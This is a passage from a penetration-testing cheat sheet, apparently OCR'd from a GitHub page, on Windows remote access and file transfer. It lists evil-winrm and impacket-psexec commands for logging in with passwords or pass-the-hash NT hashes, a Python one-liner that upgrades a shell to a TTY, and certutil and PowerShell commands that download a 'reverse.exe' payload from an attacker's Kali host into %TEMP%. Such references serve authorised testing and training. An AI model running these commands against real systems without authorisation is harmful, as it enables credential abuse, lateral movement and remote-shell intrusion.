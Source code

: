 ### 4.5. Windows direct connection

#### evil-winrm

- WinRM `5985` must be enabled on the target
- User must be a member of `Remote Management Users` on the target
- evil-winrm provides useful functions such as `upload`/`download` and `services` to check the running services; use `menu` to see the available functions

|   |   |
|---|---|
|Username/password|`evil-winrm -i $TARGET -u $USERNAME -p $PASSWORD`|
|Password hashes|`evil-winrm -i $TARGET -u $USERNAME -H $NT_HASH`|

#### impacket-psexec

- The user must be administrator on the target because PsExec uses the `ADMIN$` to run the service manager
- LM hashes are not used from Windows 10 onwards, use either `00000000000000000000000000000000` (32 zeros) or `aad3b435b51404eeaad3b435b51404ee` (LM hash of NULL) to fill the LM hash portion for impacket-psexec or pth-winexe

|   |   |
|---|---|
|Username/password|`impacket-psexec [$DOMAIN/]$USERNAME:$PASSWORD@$TARGET [$COMMAND]`|
|Password hashes|`impacket-psexec -hashes $LM_HASH:$NT_HASH [$DOMAIN/]$USERNAME@$TARGET [$COMMAND]`|

### 4.6. Upgrade to Full TTY

Certain activities like `su` will not run (error `su: must be run from a terminal`) without a terminal

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
```

## 5. File transfers

### 5.1. HTTP

#### Download

Web root: `/var/www/html`

Windows:

|   |   |
|---|---|
|certutil|`certutil.exe /urlcache /f /split http://$KALI/reverse.exe %TEMP%\reverse.exe`|
|PowerShell|`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://$KALI/reverse.exe','%TEMP%\reverse.exe')`|
